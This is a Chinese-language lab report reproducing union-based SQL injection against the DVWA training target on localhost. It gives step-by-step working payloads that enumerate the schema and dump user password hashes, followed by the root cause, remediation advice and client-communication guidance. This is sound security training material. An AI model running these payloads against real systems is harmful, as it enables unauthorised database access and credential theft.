








01 SQL注入（联合查询）复现报告

1. 环境
- 靶场：DVWA 1.9，安全级别 Low
- 工具：Edge浏览器
- 地址：http://localhost/dvwa

2. 复现步骤

2.1 判断注入点
输入 `1` 页面正常返回；输入 `1'` 触发 SQL syntax error；输入 `1' #` 页面恢复正常，确认存在字符型 SQL 注入，闭合符为单引号。

2.2 判断字段数
输入 `1' order by 2 #` 正常，输入 `1' order by 3 #` 报错，确认当前查询字段数为 2。

2.3 找回显位
输入 `1' union select 1, 2 #`，页面回显数字 1 和 2，确认这两个位置可用于数据提取。

2.4 爆库名与当前用户
输入 `1' union select database(), user() #`，获取数据库名为 `dvwa`，用户为 `root`。

2.5 爆表名
（注意：此处遇到了 information_schema 的字符集冲突报错，使用 COLLATE utf8_general_ci 绕过）
输入 `1' union select 1, table_name COLLATE utf8_general_ci from information_schema.tables where table_schema='dvwa' #`，发现敏感表 `users`。

2.6 爆字段名
输入 `1' union select 1, column_name COLLATE utf8_general_ci from information_schema.columns where table_name='users' #`，发现 `user` 和 `password` 字段。

2.7 获取敏感数据
输入 `1' union select user, password COLLATE utf8_general_ci from users #`，获取账号与密码哈希值（已打码）。

3. 原理
用户输入未经过滤直接拼接进 SQL 语句，攻击者通过闭合单引号并用 UNION 查询，将恶意查询结果合并到原查询回显中，从而读取数据库任意数据。

4. 修复建议（技术层面）
- 使用预编译语句（参数化查询），杜绝字符串拼接。
- 对输入进行严格的类型校验（如强制转为整数）。
- 数据库账号遵循最小权限原则，避免使用 root 直连。
- 关闭详细报错回显，防止泄露数据库结构。

5. 交付视角

如果向客户解释这个漏洞，我会怎么说：
“您系统里的这个查询功能存在注入漏洞，攻击者不需要账号密码，就能通过修改网页地址直接读取数据库里的敏感信息，包括管理员的账号和密码哈希。如果被外部黑客利用，会导致严重的核心数据泄露。”

修复建议的优先级怎么排：
根治方案必须是开发修改代码，引入参数化查询。如果客户业务紧急、开发排期长，临时缓解措施是在 WAF 上增加针对 information_schema 和 union select 的拦截规则，同时把该数据库账号的权限降到最低。

如果客户说“暂时修不了”怎么办：
向客户说明风险，建议先在网络层做访问控制（比如限制只允许内网访问该功能），或者通过 WAF 加虚拟补丁。同时输出书面风险告知函让客户确认，做到安全责任边界清晰，后续持续跟进整改。